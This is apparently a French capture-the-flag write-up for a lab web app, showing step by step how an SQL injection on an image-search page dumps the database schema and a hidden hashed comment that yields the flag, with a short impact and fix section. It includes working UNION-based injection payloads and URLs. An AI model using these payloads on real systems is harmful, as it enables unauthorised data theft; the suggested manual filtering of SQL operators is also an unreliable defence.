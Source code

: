 # Explication

Nom de la faille:   SQL injection searchimg

Aller sur l'URL:  `http://IP_DARKLY/index.php?page=searchimg`

Il y a un input afin de chercher une image.

On a essayé de nombreuses injections SQL avant de trouver. On va résumer avec les injections SQl essentielles

Dans un premier temps, la première  injection qui a fonctionné est:
```
1 OR 1=1
```
http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1&Submit=Submit#


L'injection nous permet d'obtenir toutes la liste de la table `list_images`.



On a ensuite essayé avec un UNION de rajouter une requête afin d'afficher le schéma de la base SQL en entier.

```
	1 OR 1=1 UNION select table_name, table_schema FROM information_schema.columns
    1 OR 1=1 UNION select table_name, column_name FROM information_schema.columns
```

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#

http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#



Grâce à ces deux injections, on a pu lire le schéma complet de la base SQL, c'est à dire récuperer tous les noms des colonnes, des tables et des schémas des tables.

Pour cette falle là, on va se concentrer sur la table list_images qui a pour colonnes:
    `id, url, title, comment`

En faisaint l'injection SQL:
```
	 1 OR 1=1 UNION select id, comment FROM Member_images.list_images
```
http://10.11.200.169/index.php?page=searchimg&id=1+OR+1%3D1+UNION+select+id%2C+comment+FROM+Member_images.list_images&Submit=Submit#


On trouve pour `id=5` le `comment="If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"`.


On decrypte le hash 1928e8083cf461a51303633093573c46 avec md5, on obtient alors `albatroz`.

Puis on encrypte albatroz comme demandé avec sha256, ce qui nous donne le flag `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`



# Comment profiter de la faille ?

Une injection SQL peut mener à une destruction ou vol de données confidentielles.

Par exemple : vol de mots de passes, adresses email, ...

# Comment la fixe ?

Une des solutions les plus simples pour se prémunir de ce genre d'injections, il est possible d'utiliser différents outils (mySqli, PDO, ...).
Manuellement, cela consiste à vérifier qu'il n'y a aucun opérateur SQL dans la variable injectée.
